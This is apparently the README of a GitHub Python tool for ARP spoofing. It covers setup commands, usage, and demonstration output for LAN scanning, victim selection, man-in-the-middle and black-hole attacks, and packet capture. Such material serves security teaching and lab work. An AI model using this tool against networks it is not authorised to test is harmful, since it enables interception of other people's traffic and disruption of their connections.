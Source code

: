## ARPSpoofing
![](https://img.shields.io/badge/platform-Linux--64-brightgreen)
![](https://img.shields.io/badge/OS-Ubuntu%2018.04%20LTS-orange)
![](https://img.shields.io/badge/python-2.7-blue)

### Description
A tool for LAN scanning, ARP attacking and packets capturing.  
For academic use only.

### Prerequisite environment setup

Install python related modules by using the fellowing commands:  
1. `sudo apt install python`  
2. `sudo apt install python-pandas`
3. `sudo apt install python-pip`
4. `sudo pip install --upgrade pip enum34`
5. `sudo apt-get update -y`
6. `sudo apt-get install -y scapy`
7. `sudo apt-get install -y python-netifaces`

Download OUI mac list from the fellowing link:  
`https://macaddress.io/database-download/csv`  
then rename the csv file as `mac_address.csv` and place at the same directory.  
This file will be converted to database in run-time.

### Usage
`sudo python arp_spoofing.py`  
![gif](https://github.com/DuvetDays/ARPSpoofing/blob/master/arp%20spoofing_1.gif?raw=true)  
`Ctrl+C` to stop the program  
### Demonstration
[step1] Select **network interface**  
```
[Info.] Available network interface list:
[1]: lo, MAC:[{'peer': '00:00:00:00:00:00', 'addr': '00:00:00:00:00:00'}]
[2]: ens33, MAC:[{'broadcast': 'ff:ff:ff:ff:ff:ff', 'addr': '00:0c:29:xx:xx:xx'}]
```
[step2] Input **IP range** of subnet you want to scan 
```
[Info.] Network config: [{'broadcast': '192.168.0.255', 'netmask': '255.255.255.0', 'addr': '192.168.0.93'}]
[Info.] MAC info: [{'broadcast': 'ff:ff:ff:ff:ff:ff', 'addr': '00:0c:29:xx:xx:xx'}]
[Enter] Please input the IP range you want to scan (e.g., 192.168.0.0/24):
```
 [step3] Select **gateway** and **victim** 
```
[Info.] Host list:
  No.  |       IP        |         MAC         |                 Company                  
[  1  ]:   192.168.0.1   -  84:0B:7C:xx:xx:xx  -             Hitron Tech Inc              
[  2  ]:  192.168.0.20   -  44:CB:8B:xx:xx:xx  -                LG innotek                
[  3  ]:  192.168.0.32   -  C8:69:CD:xx:xx:xx  -                Apple, Inc                
[  4  ]:  192.168.0.43   -  34:13:E8:xx:xx:xx  -                Intel Corp                
[  5  ]:  192.168.0.46   -  CC:F4:11:xx:xx:xx  -               Google, Inc                
[  6  ]:  192.168.0.60   -  D4:C8:B0:xx:xx:xx  -   Prime Electronics & Satellitics Inc    
[  7  ]:  192.168.0.106  -  4C:56:9D:xx:xx:xx  -                Apple, Inc 

[Info.] Scan completed.
[Info.] Scan duration: 0:00:39.118150 sec.
[Info.] Device number in the subnet: 7
```
[step4] Select **attacking mode**  
```
[Info.] Please select an attacking mode:
[1] Man in the middle(MITM)
[2] Black Hole
[Enter] Function:
```
[step5] Select **sniffing mode** (if in MITM mode)  
```
[Info.] Please select the sniffing mode you want:
[1] All packets in the specific network interface
[2] Only packets related to the victim
[Enter] Sniffing mode:
```
[step6] Start to attack victim and record packets into .pacp file in the same directory
(you can use wireshark to open and trace .pcap file)
```
BlackHole_traffic_log.pcap  MITM_traffic_log.pcap
```
[step7] Ctrl + C to stop running program and restore the LAN automatically
```
[Exception] <type 'exceptions.KeyboardInterrupt'> 
[Info.] Start to recover the LAN.
[Info.] Please wait for a while.
[Info.] Sending real ARP replies to gateway...
........
Sent 8 packets.
[Info.] Sending real ARP replies to victim...
........
Sent 8 packets.
[Info.] The LAN has been recovered.
[Info.] Man in the middle(MITM) attack is over.
[Info.] Program is shutting down.
```
